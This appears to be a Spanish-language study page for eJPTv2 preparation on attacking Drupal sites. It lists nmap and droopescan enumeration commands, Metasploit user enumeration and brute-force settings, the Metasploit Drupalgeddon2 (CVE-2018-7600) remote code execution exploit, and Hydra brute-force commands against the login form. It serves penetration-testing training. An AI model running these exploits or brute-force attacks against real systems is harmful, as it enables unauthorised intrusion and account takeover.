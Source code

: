 ```yaml
---
layout: default
title: Preparación EJPTv2
---
```


# Drupal

Un sistema de gestión de contenidos (CMS por sus siglas en inglés) es una herramienta de software que permite a los usuarios añadir, publicar, editar o eliminar contenido desde un sitio web, utilizando un navegador web en un smartphone, tablet u ordenador personal. Habitualmente un software CMS se escribe en un lenguaje de programación que se ejecuta en un ordenador, donde se instalan un servidor web y una base de datos. El contenido y las opciones de configuración del sitio web normalmente se guardan en la base de datos, y por cada petición de página que recibe el servidor web, el sistema combina la información de la base de datos y los recursos (archivos JavaScript, CSS, imágenes, etc. que son parte del CMS o que han sido añadidos) para construir la página solicitada del sitio web.

## 🕵️ Identificación de la versión de Drupal y sus componentes.

```bash
nmap -sV --script http-drupal-enum <url> # Detección de versión de Drupal y módulos.
nmap -sV --script "http-drupal* and not http-drupal-brute" <url> # Escaneo de vulnerabilidades en Drupal.
nmap -sV --script http-drupal-users <url> # Detección de usuarios de Drupal.
nmap --script=http-drupal-enum --script-args http-drupal-enum.root=/ -p 80,443 <URL> # Escaneo completo para confirmar si se está utilizando Drupal.
nmap --script=http-vuln* -p 80,443 <url> # Detectar vulnerabilidades específicas en Drupal y sus módulos.
```

Antes de realizar cualquier escaneo del CMS Drupal, es recomendable revisar ciertos directorios específicos.

- CHANGELOG.txt

Si el servicio web no carga correctamente o parece inaccesible, podríamos estar ante un caso de virtual hosting. En ese caso, debemos agregar el dominio correspondiente en nuestro /etc/hosts, añadiendo la IP de la web y el dominio al que queremos apuntar, por ejemplo: 10.0.0.10 drupal.htb.

## 🛠️ Escaneo básico Drupal con Metasploit.

```bash
use auxiliary/scanner/http/drupal_version # Cargar módulo que vamos a utilizar.
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```

## 🕵️ Enumerar Usuarios de Drupal

```bash
use auxiliary/scanner/http/drupal_users_enum
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```

## 🔑 Ataque de fuerza bruta con Metasploit:

```bash
set RHOSTS <url>
set USERNAME <nombre_usuario> # Aquí le indicamos el nombre de usuario contra el que queramos atentar.
set PASS_FILE /usr/share/wordlists/rockyou.txt # Seleccionamos el diccionario a utilizar.
run
```

 💡 ¡IMPORTANTE! : 

El exploit Drupalgeddon2 (CVE-2018-7600) afecta a las siguientes versiones de Drupal:

- Drupal 6.x (todas las versiones)

- Drupal 7.x (todas las versiones antes de 7.58)

- Drupal 8.x (todas las versiones antes de 8.5.1).

## 🛠️ Ejecución del exploit Drupalgeddon2 con Metasploit.

Drupalgeddon2 es una vulnerabilidad crítica (CVE-2018-7600) que permite la ejecución remota de código en versiones vulnerables de Drupal.

```bash
use exploit/unix/webapp/drupal_drupalgeddon2 # Seleccionamos el exploit a utilizar.
set RHOSTS <url> # Le indicamos la url del objetivo.
set RPORT 80
set TARGETURI /
run # Iniciamos el ataque.
```

Este exploit aprovecha una ejecución arbitraria de código a través de la manipulación de formularios en Drupal.

---

## 🛠️ Otras herramientas para auditar Drupal.

### Droopescan

Droopescan es una herramienta especializada en la enumeración y auditoría de sitios web basados en Drupal. Permite detectar vulnerabilidades, enumerar usuarios, módulos y temas instalados.

```bash
droopescan scan drupal -u <url_drupal> # Análisis básico del sitio Drupal.
droopescan scan drupal -u <url_drupal> -e plugins, themes # Enumerar módulos y temas instalados.
```

💡 Una buena práctica al auditar Drupal es revisar el código fuente de la página web. Ahí podremos encontrar rutas como /sites/default/files/, que pueden revelar archivos accesibles o permitir directory listing, así como información sobre temas y módulos utilizados.

Si encontramos posibles nombres de usuario durante la auditoría, debemos guardarlos en un archivo .txt para consultarlos o utilizarlos como wordlist de usuarios.

## 🔑 Fuerza bruta al panel Login de Drupal.

Fuerza bruta con Hydra

```bash
hydra -l <username> -P /usr/share/wordlists/rockyou.txt <url> http-post-form "/user/login:name=^USER^&pass=^PASS^&form_id=user_login:F=Incorrect username or password."
```

Ataque a múltiples usuarios:

```bash
hydra -L <lista_usuarios.txt> -P <diccionario.txt> <url> http-post-form "/user/login:name=^USER^&pass=^PASS^&form_id=user_login:F=Incorrect username or password."
```

----



<div style="text-align:center; font-size: 0.9em; margint-top: 40px; color: #33ff33;">
    💻 Hecho con 💚 por <strong>Marcela</strong> - 2025
</div>
